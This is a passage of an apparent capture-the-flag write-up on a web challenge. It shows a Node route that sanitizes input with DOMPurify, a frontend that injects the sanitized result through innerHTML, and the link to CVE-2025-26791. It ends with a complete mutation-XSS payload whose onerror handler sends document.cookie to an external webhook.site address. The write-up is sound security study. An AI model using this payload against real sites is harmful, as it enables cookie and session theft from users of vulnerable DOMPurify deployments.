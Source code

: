 It gets `title` and `content` from URLSearchParams, base64 decodes them, sends a request to `/admin/sanitize` to sanitize the results, and loads them to the frontend through innerHTML.

```jsx
const config = {
  SAFE_FOR_TEMPLATES: true,
  CUSTOM_ELEMENT_HANDLING: {
    tagNameCheck: /^custom-/,
  },
};

router.post("/sanitize", (req, res) => {
  const { title, content } = req.body;

  const window = new JSDOM("").window;
  const DOMPurify = createDOMPurify(window);

  const sanitizedTitle = DOMPurify.sanitize(title, config);
  const sanitizedContent = DOMPurify.sanitize(content, config);

  res.json({ title: sanitizedTitle, content: sanitizedContent });
});
```

By examining the logic of `/admin/sanitize`, it becomes clear that the `SAFE_FOR_TEMPLATES` and `CUSTOM_ELEMENT_HANDLING` properties from the `config` are used during the sanitization process

Looking up these configuration settings reveals that the challenge leverages a 1-day vulnerability — [CVE-2025-26791](https://nvd.nist.gov/vuln/detail/CVE-2025-26791).

```html
<math
  ><custom-test
    ><mi
      ><li>
        <table>
          <custom-test><li></li></custom-test
          ><a>
            <style>
              <! \${
            </style>
            }
            <custom-b
              id="><img src onerror='location.href=`https://a393275e-a197-4977-9eb3-8a0cd803aab8.webhook.site/?q=`.concat(document.cookie);'>"
              >hmm...</custom-b
            >
          </a>
        </table>
      </li></mi
    ></custom-test
  ></math
>
```
